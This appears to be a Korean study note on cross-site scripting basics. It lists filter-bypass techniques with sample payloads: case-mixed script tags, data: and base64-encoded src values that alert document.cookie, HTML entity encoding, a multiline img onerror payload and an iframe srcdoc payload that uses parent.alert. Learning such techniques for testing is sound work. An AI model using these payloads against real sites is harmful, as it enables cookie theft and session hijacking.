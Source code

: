 ```yaml
---
title: "xss basic"
tags: ["basic theory", xss]
categories: [xss]
---
```


## **xss 기초**

xss의 핵심은 script를 삽입하여 이를 실행 가능한지 여부가 중요하다고 생각됩니다. HTML에서 script를 포함하기 위한 태그로는 기본적으로 \<script\> 태그만 알고 있었는데 이외에도 event handler를 사용하여도 가능하다는 것을 알 수 있었습니다.

### 여러 가지 우회 방법

> 잘못된 정규표현식

- 대소문자 구분이 있을 경우
```
script를 필터링 할 경우 Script, SCRIPT, ScRiPt와 같이 우회 가능
```

- script 태그 내에 데이터가 존재하는지 확인할 경우
```
src=data:,alert(document.cookie)와 같이 src 속성을 이용한 데이터 입력
```

- 특정 문자열을 필터링 할 경우
```
src=data:;base64,YWxlcnQgKGRvY3VtZW50LmNvb2tpZSk7와 같이 base64 encoding을 이용하여 우회 가능
혹은 &#114; 와 같이 중간에 html number entity encoding을 사용하여 우회 가능
```

- 멀티라인 검증이 없을 경우
```
<img src=""
onerror=alert(document.cookie) /> 와 같이 우회 가능
```

- iframe 사용 시 주의 사항
```
iframe을 사용하여 xss payload를 전달할 경우 해당 payload가 iframe 안에서 호출되기 때문에 상위 문서에 영향을 주기 위해서는 alert이 아닌 parent.alert을 사용하여야 합니다.
`<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>`
혹은 alert은 유지하고 parent.document.domain과 같은 방식을 사용하여도 동일합니다.
```

* * *


